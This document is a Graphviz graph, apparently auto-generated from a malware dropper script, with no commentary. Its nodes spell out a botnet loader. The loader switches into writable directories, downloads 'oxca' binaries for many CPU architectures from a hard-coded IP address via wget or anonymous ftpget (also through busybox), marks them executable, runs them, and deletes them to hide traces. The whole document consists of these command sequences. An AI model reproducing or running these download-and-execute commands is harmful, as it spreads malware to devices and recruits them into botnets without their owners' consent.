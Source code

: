 digraph {
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 10 [label="||,"];
10 [label="wget http://212.237.53.32/oxca.mips "];
10 -> 12 [label=";,"];
12 [label="chmod +x oxca.mips "];
12 -> 48 [label=";,"];
48 [label="./oxca.mips "];
48 -> 32 [label=";,"];
32 [label="rm -rf oxca.mips "];
32 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 28 [label="||,"];
28 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.mips oxca.mips "];
28 -> 30 [label=";,"];
30 [label="chmod +x oxca.mips ./oxca.mips "];
30 -> 32 [label=";,"];
32 [label="rm -rf oxca.mips "];
32 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 44 [label="||,"];
44 [label="/bin/busybox wget http://212.237.53.32/oxca.mips "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox chmod +x oxca.mips "];
46 -> 48 [label=";,"];
48 [label="./oxca.mips "];
48 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf oxca.mips "];
66 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 62 [label="||,"];
62 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.mips oxca.mips "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox chmod +x oxca.mips ./oxca.mips "];
64 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf oxca.mips "];
66 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 78 [label="||,"];
78 [label="wget http://212.237.53.32/oxca.mpsl "];
78 -> 80 [label=";,"];
80 [label="chmod +x oxca.mpsl "];
80 -> 116 [label=";,"];
116 [label="./oxca.mpsl "];
116 -> 100 [label=";,"];
100 [label="rm -rf oxca.mpsl "];
100 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 96 [label="||,"];
96 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.mpsl oxca.mpsl "];
96 -> 98 [label=";,"];
98 [label="chmod +x oxca.mpsl ./oxca.mpsl "];
98 -> 100 [label=";,"];
100 [label="rm -rf oxca.mpsl "];
100 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 112 [label="||,"];
112 [label="/bin/busybox wget http://212.237.53.32/oxca.mpsl "];
112 -> 114 [label=";,"];
114 [label="/bin/busybox chmod +x oxca.mpsl "];
114 -> 116 [label=";,"];
116 [label="./oxca.mpsl "];
116 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf oxca.mpsl "];
134 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 130 [label="||,"];
130 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.mpsl oxca.mpsl "];
130 -> 132 [label=";,"];
132 [label="/bin/busybox chmod +x oxca.mpsl ./oxca.mpsl "];
132 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf oxca.mpsl "];
134 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 146 [label="||,"];
146 [label="wget http://212.237.53.32/oxca.sh4 "];
146 -> 148 [label=";,"];
148 [label="chmod +x oxca.sh4 "];
148 -> 184 [label=";,"];
184 [label="./oxca.sh4 "];
184 -> 168 [label=";,"];
168 [label="rm -rf oxca.sh4 "];
168 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 164 [label="||,"];
164 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.sh4 oxca.sh4 "];
164 -> 166 [label=";,"];
166 [label="chmod +x oxca.sh4 ./oxca.sh4 "];
166 -> 168 [label=";,"];
168 [label="rm -rf oxca.sh4 "];
168 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 180 [label="||,"];
180 [label="/bin/busybox wget http://212.237.53.32/oxca.sh4 "];
180 -> 182 [label=";,"];
182 [label="/bin/busybox chmod +x oxca.sh4 "];
182 -> 184 [label=";,"];
184 [label="./oxca.sh4 "];
184 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf oxca.sh4 "];
202 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 198 [label="||,"];
198 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.sh4 oxca.sh4 "];
198 -> 200 [label=";,"];
200 [label="/bin/busybox chmod +x oxca.sh4 ./oxca.sh4 "];
200 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf oxca.sh4 "];
202 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 214 [label="||,"];
214 [label="wget http://212.237.53.32/oxca.x86 "];
214 -> 216 [label=";,"];
216 [label="chmod +x oxca.x86 "];
216 -> 252 [label=";,"];
252 [label="./oxca.x86 "];
252 -> 236 [label=";,"];
236 [label="rm -rf oxca.x86 "];
236 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 232 [label="||,"];
232 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.x86 oxca.x86 "];
232 -> 234 [label=";,"];
234 [label="chmod +x oxca.x86 ./oxca.x86 "];
234 -> 236 [label=";,"];
236 [label="rm -rf oxca.x86 "];
236 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 248 [label="||,"];
248 [label="/bin/busybox wget http://212.237.53.32/oxca.x86 "];
248 -> 250 [label=";,"];
250 [label="/bin/busybox chmod +x oxca.x86 "];
250 -> 252 [label=";,"];
252 [label="./oxca.x86 "];
252 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf oxca.x86 "];
270 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 266 [label="||,"];
266 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.x86 oxca.x86 "];
266 -> 268 [label=";,"];
268 [label="/bin/busybox chmod +x oxca.x86 ./oxca.x86 "];
268 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf oxca.x86 "];
270 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 282 [label="||,"];
282 [label="wget http://212.237.53.32/oxca.arm61 "];
282 -> 284 [label=";,"];
284 [label="chmod +x oxca.arm61 "];
284 -> 320 [label=";,"];
320 [label="./oxca.arm61 "];
320 -> 304 [label=";,"];
304 [label="rm -rf oxca.arm61 "];
304 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 300 [label="||,"];
300 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.arm61 oxca.arm61 "];
300 -> 302 [label=";,"];
302 [label="chmod +x oxca.arm61 ./oxca.arm61 "];
302 -> 304 [label=";,"];
304 [label="rm -rf oxca.arm61 "];
304 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 316 [label="||,"];
316 [label="/bin/busybox wget http://212.237.53.32/oxca.arm61 "];
316 -> 318 [label=";,"];
318 [label="/bin/busybox chmod +x oxca.arm61 "];
318 -> 320 [label=";,"];
320 [label="./oxca.arm61 "];
320 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf oxca.arm61 "];
338 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 334 [label="||,"];
334 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.arm61 oxca.arm61 "];
334 -> 336 [label=";,"];
336 [label="/bin/busybox chmod +x oxca.arm61 ./oxca.arm61 "];
336 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf oxca.arm61 "];
338 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 350 [label="||,"];
350 [label="wget http://212.237.53.32/oxca.i686 "];
350 -> 352 [label=";,"];
352 [label="chmod +x oxca.i686 "];
352 -> 388 [label=";,"];
388 [label="./oxca.i686 "];
388 -> 372 [label=";,"];
372 [label="rm -rf oxca.i686 "];
372 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 368 [label="||,"];
368 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.i686 oxca.i686 "];
368 -> 370 [label=";,"];
370 [label="chmod +x oxca.i686 ./oxca.i686 "];
370 -> 372 [label=";,"];
372 [label="rm -rf oxca.i686 "];
372 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 384 [label="||,"];
384 [label="/bin/busybox wget http://212.237.53.32/oxca.i686 "];
384 -> 386 [label=";,"];
386 [label="/bin/busybox chmod +x oxca.i686 "];
386 -> 388 [label=";,"];
388 [label="./oxca.i686 "];
388 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf oxca.i686 "];
406 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 402 [label="||,"];
402 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.i686 oxca.i686 "];
402 -> 404 [label=";,"];
404 [label="/bin/busybox chmod +x oxca.i686 ./oxca.i686 "];
404 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf oxca.i686 "];
406 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 418 [label="||,"];
418 [label="wget http://212.237.53.32/oxca.ppc "];
418 -> 420 [label=";,"];
420 [label="chmod +x oxca.ppc "];
420 -> 456 [label=";,"];
456 [label="./oxca.ppc "];
456 -> 440 [label=";,"];
440 [label="rm -rf oxca.ppc "];
440 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 436 [label="||,"];
436 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.ppc oxca.ppc "];
436 -> 438 [label=";,"];
438 [label="chmod +x oxca.ppc ./oxca.ppc "];
438 -> 440 [label=";,"];
440 [label="rm -rf oxca.ppc "];
440 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 452 [label="||,"];
452 [label="/bin/busybox wget http://212.237.53.32/oxca.ppc "];
452 -> 454 [label=";,"];
454 [label="/bin/busybox chmod +x oxca.ppc "];
454 -> 456 [label=";,"];
456 [label="./oxca.ppc "];
456 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf oxca.ppc "];
474 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 470 [label="||,"];
470 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.ppc oxca.ppc "];
470 -> 472 [label=";,"];
472 [label="/bin/busybox chmod +x oxca.ppc ./oxca.ppc "];
472 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf oxca.ppc "];
474 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 486 [label="||,"];
486 [label="wget http://212.237.53.32/oxca.i586 "];
486 -> 488 [label=";,"];
488 [label="chmod +x oxca.i586 "];
488 -> 524 [label=";,"];
524 [label="./oxca.i586 "];
524 -> 508 [label=";,"];
508 [label="rm -rf oxca.i586 "];
508 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 504 [label="||,"];
504 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.i586 oxca.i586 "];
504 -> 506 [label=";,"];
506 [label="chmod +x oxca.i586 ./oxca.i586 "];
506 -> 508 [label=";,"];
508 [label="rm -rf oxca.i586 "];
508 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 520 [label="||,"];
520 [label="/bin/busybox wget http://212.237.53.32/oxca.i586 "];
520 -> 522 [label=";,"];
522 [label="/bin/busybox chmod +x oxca.i586 "];
522 -> 524 [label=";,"];
524 [label="./oxca.i586 "];
524 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf oxca.i586 "];
542 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 538 [label="||,"];
538 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.i586 oxca.i586 "];
538 -> 540 [label=";,"];
540 [label="/bin/busybox chmod +x oxca.i586 ./oxca.i586 "];
540 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf oxca.i586 "];
542 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 554 [label="||,"];
554 [label="wget http://212.237.53.32/oxca.m68k "];
554 -> 556 [label=";,"];
556 [label="chmod +x oxca.m68k "];
556 -> 592 [label=";,"];
592 [label="./oxca.m68k "];
592 -> 576 [label=";,"];
576 [label="rm -rf oxca.m68k "];
576 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 572 [label="||,"];
572 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.m68k oxca.m68k "];
572 -> 574 [label=";,"];
574 [label="chmod +x oxca.m68k ./oxca.m68k "];
574 -> 576 [label=";,"];
576 [label="rm -rf oxca.m68k "];
576 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 588 [label="||,"];
588 [label="/bin/busybox wget http://212.237.53.32/oxca.m68k "];
588 -> 590 [label=";,"];
590 [label="/bin/busybox chmod +x oxca.m68k "];
590 -> 592 [label=";,"];
592 [label="./oxca.m68k "];
592 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf oxca.m68k "];
610 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 606 [label="||,"];
606 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.m68k oxca.m68k "];
606 -> 608 [label=";,"];
608 [label="/bin/busybox chmod +x oxca.m68k ./oxca.m68k "];
608 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf oxca.m68k "];
610 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 622 [label="||,"];
622 [label="wget http://212.237.53.32/oxca.spc "];
622 -> 624 [label=";,"];
624 [label="chmod +x oxca.spc "];
624 -> 660 [label=";,"];
660 [label="./oxca.spc "];
660 -> 644 [label=";,"];
644 [label="rm -rf oxca.spc "];
644 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 640 [label="||,"];
640 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.spc oxca.spc "];
640 -> 642 [label=";,"];
642 [label="chmod +x oxca.spc ./oxca.spc "];
642 -> 644 [label=";,"];
644 [label="rm -rf oxca.spc "];
644 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 656 [label="||,"];
656 [label="/bin/busybox wget http://212.237.53.32/oxca.spc "];
656 -> 658 [label=";,"];
658 [label="/bin/busybox chmod +x oxca.spc "];
658 -> 660 [label=";,"];
660 [label="./oxca.spc "];
660 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf oxca.spc "];
678 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 674 [label="||,"];
674 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.spc oxca.spc "];
674 -> 676 [label=";,"];
676 [label="/bin/busybox chmod +x oxca.spc ./oxca.spc "];
676 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf oxca.spc "];
678 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 690 [label="||,"];
690 [label="wget http://212.237.53.32/oxca.arm41 "];
690 -> 692 [label=";,"];
692 [label="chmod +x oxca.arm41 "];
692 -> 728 [label=";,"];
728 [label="./oxca.arm41 "];
728 -> 712 [label=";,"];
712 [label="rm -rf oxca.arm41 "];
712 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 708 [label="||,"];
708 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.arm41 oxca.arm41 "];
708 -> 710 [label=";,"];
710 [label="chmod +x oxca.arm41 ./oxca.arm41 "];
710 -> 712 [label=";,"];
712 [label="rm -rf oxca.arm41 "];
712 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 724 [label="||,"];
724 [label="/bin/busybox wget http://212.237.53.32/oxca.arm41 "];
724 -> 726 [label=";,"];
726 [label="/bin/busybox chmod +x oxca.arm41 "];
726 -> 728 [label=";,"];
728 [label="./oxca.arm41 "];
728 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf oxca.arm41 "];
746 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 742 [label="||,"];
742 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.arm41 oxca.arm41 "];
742 -> 744 [label=";,"];
744 [label="/bin/busybox chmod +x oxca.arm41 ./oxca.arm41 "];
744 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf oxca.arm41 "];
746 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 758 [label="||,"];
758 [label="wget http://212.237.53.32/oxca.arm51 "];
758 -> 760 [label=";,"];
760 [label="chmod +x oxca.arm51 "];
760 -> 796 [label=";,"];
796 [label="./oxca.arm51 "];
796 -> 780 [label=";,"];
780 [label="rm -rf oxca.arm51 "];
780 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 776 [label="||,"];
776 [label="ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.arm51 oxca.arm51 "];
776 -> 778 [label=";,"];
778 [label="chmod +x oxca.arm51 ./oxca.arm51 "];
778 -> 780 [label=";,"];
780 [label="rm -rf oxca.arm51 "];
780 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 792 [label="||,"];
792 [label="/bin/busybox wget http://212.237.53.32/oxca.arm51 "];
792 -> 794 [label=";,"];
794 [label="/bin/busybox chmod +x oxca.arm51 "];
794 -> 796 [label=";,"];
796 [label="./oxca.arm51 "];
796 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf oxca.arm51 "];
814 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 810 [label="||,"];
810 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 212.237.53.32 oxca.arm51 oxca.arm51 "];
810 -> 812 [label=";,"];
812 [label="/bin/busybox chmod +x oxca.arm51 ./oxca.arm51 "];
812 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf oxca.arm51 "];
814 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
